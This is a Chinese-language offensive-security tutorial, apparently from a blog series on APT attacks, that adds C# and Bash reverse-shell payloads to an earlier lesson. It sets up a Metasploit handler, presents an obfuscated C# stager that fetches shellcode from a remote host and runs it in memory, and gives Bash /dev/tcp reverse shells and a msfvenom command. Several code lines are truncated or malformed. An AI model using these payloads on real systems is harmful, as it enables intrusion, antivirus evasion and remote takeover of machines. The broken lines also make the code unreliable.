 专注APT攻击与防御
https://micropoor.blogspot.com/

在实战中可能会遇到各种诉求payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了C\#，Bash

ps:在线代码高亮：http://tool.oschina.net/highlight

**1.C#-payload**
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```

混淆：
``` c#
using System; using System.Net; using System.Net.Sockets; using System.Runtime.InteropServices; using System.
namespace RkfCHtll { class LiNGeDokqnEH {
static byte[] idCWVw(string VVUUJUQytjlL, int eMcukOUqFuHbUv) {
    IPEndPoint nlttgWAMdEQgAo = new IPEndPoint(IPAddress.Parse(VVUUJUQytjlL),
eMcukOUqFuHbUv); 
    Socket fzTiwdk = new Socket(AddressFamily.InterNetwork,
SocketType.Stream, ProtocolType.Tcp); 
    try { fzTiwdk.Connect(nlttgWAMdEQgAo);}
    catch { return null;}
    byte[] gJVVagJmu = new byte[4];
    fzTiwdk.Receive(gJVVagJmu, 4, 0);
    int GFxHorfhzft = BitConverter.ToInt32(gJVVagJmu, 0);
    byte[] mwxyRsYNn = new byte[GFxHorfhzft + 5]; 
    int yVcZAEmXaMszAc = 0;
    while (yVcZAEmXaMszAc < GFxHorfhzft)
    { yVcZAEmXaMszAc += fzTiwdk.Receive(mwxyRsYNn,yVcZAEmXaMszAc + 5, (GFxHorfhzft - yVcZAEmXaMszAc) < 4096 
    byte[] XEvFDc = BitConverter.GetBytes((int)fzTiwdk.Handle);
    Array.Copy(XEvFDc, 0, mwxyRsYNn, 1, 4); mwxyRsYNn[0] = 0xBF;
    return mwxyRsYNn;}
static void hcvPkmyIZ(byte[] fPnfqu) {
    if (fPnfqu != null) {
        UInt32 hcoGPUltNcjK = VirtualAlloc(0,(UInt32)fPnfqu.Length, 0x1000, 0x40);
        Marshal.Copy(fPnfqu, 0, (IntPtr)(hcoGPUltNcjK), fPnfqu.Length);
        IntPtr xOxEPnqW = IntPtr.Zero; 
        UInt32 ooiiZLMzO = 0;
        IntPtr wxPyud = IntPtr.Zero;
        xOxEPnqW = CreateThread(0, 0, hcoGPUltNcjK, wxPyud, 0, ref ooiiZLMzO);
        WaitForSingleObject(xOxEPnqW, 0xFFFFFFFF); }}
static void Main(){
    byte[] dCwAid = null; dCwAid = idCWVw("xx.xx.xx.xx", xx);
    hcvPkmyIZ(dCwAid); }
        [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 qWBbOS,UInt32 HoKzSHMU, UInt [DllImport("kernel32")]private static extern
IntPtr CreateThread(UInt32 tqUXybrozZ, UInt32 FMmVpwin, UInt32 H
[DllImport("kernel32")] private static extern UInt32
WaitForSingleObject(IntPtr CApwDwK, UInt32 uzGJUddCYTd);
```

![](media/926b5570b97743dcfdc212edb6604589.jpg)


**1.Bash-payload**
`i >& /dev/tcp/xx.xx.xx.xx/xx 0>&1`
![](media/49ee03061e17179d4022d4fc02df4da6.jpg)
```
exec 5<>/dev/tcp/xx.xx.xx.xx/xx
cat <&5 | while read line; do $line 2>&5 >&5;done
```
![](media/9b61ec08224188e6d2e172a47df7861a.jpg)

附录：
msfvenom 生成bash
`root@John:~# msfvenom -p cmd/unix/reverse_bash LHOST=xx.xx..xx.xx LPORT=xx > -f raw > payload.sh`

参数简化
项目地址：https://github.com/g0tmi1k/mpc
![](media/4b4fa44f7174bc8361028253fefead0e.jpg)

>   Micropoor
